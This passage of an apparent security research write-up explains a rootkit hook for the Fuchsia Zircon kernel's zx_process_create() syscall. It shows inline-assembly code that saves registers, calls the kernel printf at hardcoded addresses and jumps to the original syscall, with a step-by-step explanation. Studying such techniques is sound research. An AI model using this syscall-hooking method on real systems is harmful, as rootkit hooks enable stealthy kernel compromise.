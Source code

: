 I wrote my rootkit hook for the `zx_process_create()` syscall in C, but didn't like the assembly of that hook generated by the compiler. So I reimplemented it in asm. Let's look at the code, I like this part:

```c
#define XSTR(A) STR(A)
#define STR(A) #A

#define ZIRCON_ASSERT_FAIL_MSG 0xffffffff001012e0
#define HOOK_CODE_SIZE 60
#define ZIRCON_PRINTF 0xffffffff0010fa20
#define ZIRCON_X86_SYSCALL_CALL_PROCESS_CREATE 0xffffffff003077c0

void process_create_hook(void)
{
  __asm__ ( "push %rax;"
	    "push %rdi;"
	    "push %rsi;"
	    "push %rdx;"
	    "push %rcx;"
	    "push %r8;"
	    "push %r9;"
	    "push %r10;"
	    "xor %al, %al;"
	    "mov $" XSTR(ZIRCON_ASSERT_FAIL_MSG + 1 + HOOK_CODE_SIZE) ",%rdi;"
	    "mov $" XSTR(ZIRCON_PRINTF) ",%r11;"
	    "callq *%r11;"
	    "pop %r10;"
	    "pop %r9;"
	    "pop %r8;"
	    "pop %rcx;"
	    "pop %rdx;"
	    "pop %rsi;"
	    "pop %rdi;"
	    "pop %rax;"
            "mov $" XSTR(ZIRCON_X86_SYSCALL_CALL_PROCESS_CREATE) ",%r11;"
	    "jmpq *%r11;");
}
```

 1. This hook saves (pushes to the stack) all the registers that can be clobbered by the subsequent function calls.
 2. Then I prepare and call the Zircon `printf()` kernel function:
   - The first argument of this function is provided via the `rdi` register. It stores the address of the string that I want to print to the kernel log. More details on this will come later. The trick with `STR` and `XSTR` macros is used for the stringizing; you can read about it in the [GCC documentation](https://gcc.gnu.org/onlinedocs/gcc-11.3.0/cpp/Stringizing.html#Stringizing).
   - Zero `al` indicates that no vector arguments are passed to this function with a variable number of arguments.
   - The `r11` register stores the address of the Zircon `printf()` function, which is called by the `callq *%r11` instruction.
 3. After calling the kernel `printf()`, the clobbered registers are restored.
 4. Finally, the hooked jumps to the original syscall `zx_process_create()`.
